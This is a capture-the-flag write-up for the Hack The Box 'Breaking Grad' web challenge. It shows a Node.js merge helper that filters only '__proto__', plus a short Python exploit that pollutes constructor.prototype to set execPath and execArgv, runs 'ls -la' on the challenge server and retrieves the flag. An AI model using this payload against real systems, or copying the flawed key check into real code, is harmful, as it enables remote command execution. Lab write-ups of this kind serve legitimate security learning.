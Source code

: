 ```yaml
---
layout: single
title: Breaking Grad [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - Prototype Pollution
---
```

 

## Vulnerabe Code
### challenge/helpers/ObjectHelper.js


```js

module.exports = {
    isObject(obj) {
        return typeof obj === 'function' || typeof obj === 'object';
    },

    isValidKey(key) {
        return key !== '__proto__';
    },

    merge(target, source) {
        for (let key in source) {
            if (this.isValidKey(key)){
                if (this.isObject(target[key]) && this.isObject(source[key])) {
                    this.merge(target[key], source[key]);
                } else {
                    target[key] = source[key];
                }
            }
        }
        return target;
    },

    clone(target) {
        return this.merge({}, target);
    }
}
```

# Exploit [prototype pollution]
```python
#!/usr/bin/python3
import requests


HOST='http://138.68.136.191:31033'
API='/api/calculate'
ENDPOINT='/debug/version'

#prototype pollution
r=requests.post(HOST+API, json={"constructor":{"prototype":{"execPath":"ls","execArgv":["-la","."]}}}) # send post requests with payload


r1=requests.get(HOST+ENDPOINT) # get results back

print(r1.text)
```
### Flag => HTB{l00s1ng_t3nur3_l1k3_it5_fr1d4y_m0rn1ng}
